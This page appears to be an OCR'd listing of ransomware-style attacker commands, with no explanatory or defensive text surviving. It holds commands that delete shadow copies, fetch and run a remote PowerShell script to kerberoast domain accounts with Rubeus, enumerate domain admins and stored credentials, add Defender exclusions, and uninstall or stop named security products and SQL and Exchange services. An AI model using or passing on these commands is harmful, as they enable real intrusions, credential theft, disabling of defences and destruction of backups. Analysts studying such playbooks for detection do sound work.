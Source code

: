 ### PayloadBin

```
vssadmin.exe Delete Shadows /All /Quiet
wmic process call create “%s” > nul && exit
C:\Users\Admin\AppData\Roaming\SetupPlay8\Dev /go
cmd /c waitfor /t 10 pause /d y & del “C:\Users\Admin\AppData\Roaming\SetupPlay8\Dev” & rd
“C:\Users\Admin\AppData\Roaming\SetupPlay8\”
waitfor /t 10 pause /d y
```

### Download Kerberoasting from GitHub

```
cmd.exe /C cmd /c powershell -nop -exec bypass -c iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1'); PowerSharpPack -Rubeus -Command "kerberoast"
```

### Recon commands

```
cmd.exe /C powershell /c nltest /dclist: ; nltest /domain_trusts ; cmdkey /list ; net group 'Domain Admins' /domain ; net group 'Enterprise Admins' /domain ; net localgroup Administrators /domain ; net localgroup Administrators

cmd.exe /C powershell /c "Get-WmiObject win32_service -ComputerName localhost | Where-Object {$_.PathName -notmatch 'c:win'} | select Name, DisplayName, State, PathName | findstr 'Running'"
```

### Script forcing Group Policy update

```
gpupdate /force
powershell.exe -command Add-MpPreference -ExclusionExtension ".bat"
powershell.exe -command Add-MpPreference -ExclusionExtension ".exe"
powershell.exe -command Add-MpPreference -ExclusionExtension ".dll"
powershell.exe -command Add-MpPreference -ExclusionPath "C:Programdata"
powershell.exe -command Add-MpPreference -ExclusionPath "C:Windows>"
```

### Script to uninstall antivirus products

```
wmic product where name="CarbonBlack Sensor" call uninstall /nointeractive
wmic product where name="Carbon Black Sensor" call uninstall /nointeractive
wmic product where name="Carbon Black Cloud Sensor 64-bit" call uninstall /nointeractive
wmic product where name="CarbonBlack Cloud Sensor 64-bit" call uninstall /nointeractive
wmic product where name="Cb Defense Sensor 64-bit" call uninstall /nointeractive
wmic product where "name like '%%Cb Defense%%'" call uninstall /nointeractive
wmic product where name="Dell Threat Defense" call uninstall /nointeractive
wmic product where name="Cylance PROTECT" call uninstall /nointeractive
wmic product where name="Cylance Unified Agent" call uninstall /nointeractive
wmic product where name="Cylance PROTECT - Dell Plugins" call uninstall /nointeractive
wmic product where name="Microsoft Security Client" call uninstall /nointeractive
wmic product where name="LogRhythm System Monitor Service" call uninstall /nointeractive
wmic product where name="Microsoft Endpoint Protection Management Components" call uninstall /nointeractive
wmic service where "caption like '%%LogRhythm%%'" call stopservice
wmic service where "caption like '%%SQL%%'" call stopservice
wmic service where "caption like '%%Exchange%%'" call stopservice
wmic service where "caption like '%%Malwarebytes%%'" call stopservice
```
